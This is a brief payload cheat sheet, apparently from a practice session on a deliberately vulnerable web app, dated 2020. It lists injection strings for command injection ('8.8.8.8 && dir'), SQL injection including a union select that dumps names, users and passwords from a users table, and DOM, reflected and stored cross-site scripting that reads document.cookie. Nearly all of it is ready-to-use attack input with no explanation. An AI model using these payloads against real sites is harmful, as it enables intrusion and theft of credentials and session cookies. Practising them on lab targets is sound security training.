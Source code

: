 Author: Pratyaksha Beri
Date: 7 September 2020

Command Injection - 8.8.8.8 && dir

SQL Injection - %' or '0'='0
	Escalation: %' and 1=0 union select null, concat(first_name,0x0a,last_name,0x0a,user,0x0a,password) from users #

XSS DOM - "></option><script>alert(document.cookie)</script><option value="blah

XSS Reflected - <script>alert(document.cookie)</script>

XSS Stored - <script>alert(document.domain)</script>Nice book
